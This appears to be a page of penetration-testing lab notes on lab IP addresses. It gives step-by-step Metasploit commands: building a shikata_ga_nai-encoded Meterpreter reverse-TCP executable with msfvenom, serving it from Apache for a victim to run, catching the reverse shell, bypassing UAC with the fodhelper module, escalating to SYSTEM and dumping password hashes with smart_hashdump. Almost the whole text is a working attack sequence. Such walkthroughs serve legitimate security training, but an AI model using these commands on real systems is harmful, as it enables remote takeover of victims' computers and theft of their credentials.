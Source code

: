 **Listener Setup**

Start Metasploit Framework

- Type ***use multi/handler***
- Type ***set payload windows/meterpreter/reverse\_tcp***
- Type ***set LHOST 10.10.10.11***
- Type ***set LPORT 444***
- ***Run***


**Execute Exploit**

- Open <http://10.10.10.11/share> on victim machine. Download Payload and run.
- Meterpreter shell is opened on attacker side. Type ***sysinfo*** to get system details.
- Type ***run vnc*** to start vnc viewer.


**Privilege Escalation using MSFVENOM and MSFCONSOLE Payload Setup**

- ***msfvenom -p windows/meterpreter/reverse\_tcp --platform windows -a x86 -e x86/shikata\_ga\_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe*** | -e encoder, -b list of bad characters to avoid
- _Type **mkdir /var/www/html/share**_** | make directory
- Type ***chmod -R 755 /var/www/html/share*** | change rights recursively to all files and folders inside
- Type ***chown -R www-data:www-data /var/www/html/share*** | change owner recursively  owner:group
- ***mv /root/Desktop/Test.exe /var/www/html/share*** | move to exploit
- ***service apache2 start***


**Listener Setup**

- Type ***use exploit/multi/handler***.
- Type ***set payload windows/meterpreter/reverse\_tcp***.
- Type ***set LHOST 10.10.10.11***.
- Start listener, type ***exploit -j -z*** |exploit -j -z exploit tells Metasploit to start the exploit. The -j flag tells it to run in the context of a job and -z simply means to not interact with the session once it becomes active.


**Execute Exploit**

- Open <http://10.10.10.11/share> on victim machine. Download Payload and run.
- Type ***sessions -i*** to view sessions 
- Type ***sessions -i 1*** to interact with the session created 
- Type ***getuid*** to get user id 
- Run post exploitation exploit ***run post/windows/gather/smart\_hashdump*** | **will fail right now**
- Type ***getsystem*** | **will fail right now** | use ***getystem -h*** to view all available methods
- Type ***getsystem -t 1*** | use technique 1 to escalate privileges | **will fail right now**
- Type ***background***  | backgrounds the meterpreter session.
- Type ***search uac*** in msfconsole | get view modules related to uac


**Payload and Exploit Setup – Phase 2**

- Type ***use exploit/windows/local/bypassuac\_fodhelper***
- Type ***show options*** | to view options related to the payload
- Type ***set SESSION 1*** | the previous opened meterpreter session id
- Type ***set payload windows/meterpreter/reverse\_tcp***
- Type ***set LHOST 10.10.10.11***
- Type ***set TARGET 0***
- Type ***exploit***
- Type ***getuid*** to get user id 
- Type ***getsystem*** | to escalate privileges
- Run post exploitation exploit ***run post/windows/gather/smart\_hashdump*** | to dump password hashes
